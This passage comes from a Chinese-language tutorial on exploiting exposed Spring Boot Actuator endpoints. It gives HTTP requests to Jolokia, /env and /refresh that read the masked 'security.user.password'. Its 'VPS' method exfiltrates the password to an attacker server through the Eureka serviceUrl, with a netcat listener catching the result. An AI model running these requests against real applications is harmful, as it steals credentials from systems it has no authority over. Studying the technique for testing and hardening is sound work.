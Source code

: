 ![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/CSyEGWNz8kvJV2UIibQChZGD7kz6sG8VWeRfPDjkMP512H1vwyOiaF0PzGkxBDMdjfrCaYPzJNyzQjfY4LrVOlEQ/640?wx_fmt=jpeg&from=appmsg "")  
```
POST/actuator/jolokia 
Content-Type:application/json 
{"mbean":"org.springframework.boot:name=SpringApplication,type=Admin","operation":"getProperty","type":"EXEC","arguments":["security.user.password"]}
```  
### 方法三（VPS）  
  
利用条件  
  
可以GET请求目标网站的/env  
  
可以POST请求目标网站的/env  
  
可以POST请求目标网站的/refresh接口刷新配置（存在spring-boot-starter-actuator依赖）  
  
目标使用了spring-cloud-starter-netflix-eureka-client依赖  
  
目标可以请求攻击者的服务器（请求可出外网）  
  
这里需要注意的是，添加了spring-cloud-starter-netflix-eureka-client依赖后，启动项目可能会报一个如下错误：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/CSyEGWNz8kvJV2UIibQChZGD7kz6sG8VW5gjQWmx0OzgD2oh0IV6eJKw0hDb7tw7ZicuC0CV37rGWKicDUdw25mNA/640?wx_fmt=jpeg&from=appmsg "")  
  
移除了当前项目中的servlet依赖后报错消失。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/CSyEGWNz8kvJV2UIibQChZGD7kz6sG8VWW1ja6Pwvf4NibMHzoPStEIonInR7G3VotSGsA595uQSqxibE4stKhJgg/640?wx_fmt=jpeg&from=appmsg "")  
  
还有一个问题就是如果使用的Spring Boot版本大于2.2.4，则必须使用下面的属性手动启用POST API调用  
  
management.endpoint.env.post.enabled=true  
  
否则不能通过POST访问env端点。  
  
利用方法  
1. 首先访问http://127.0.0.1:8080/actuator/env来获取我们想要明文字段的key  
  
2. 在自己控制的外网服务器上监听80端口nc-lvk80  
  
3. 将下面http://value:${security.user.password}@your-vps-ipsecurity.user.password换成自己想要获取的对应的星号*遮掩的属性名；your-vps-ip换成自己外网服务器的真实ip地址  
```
POST/actuator/env 
Content-Type:application/json 
{"name":"eureka.client.serviceUrl.defaultZone","value":"http://value:${security.user.password}@your-vps-ip"}
```  
  
4. 刷新配置  
```
POST/actuator/refresh 
Content-Type:application/json
```  
  
5. 解码属性值接下来VPS会获得如下请求  
```
GET/apps/HTTP/1.1 
Accept:application/json,application/*+json 
Authorization:BasicdmFsdWU6cm9vdA==
```  
  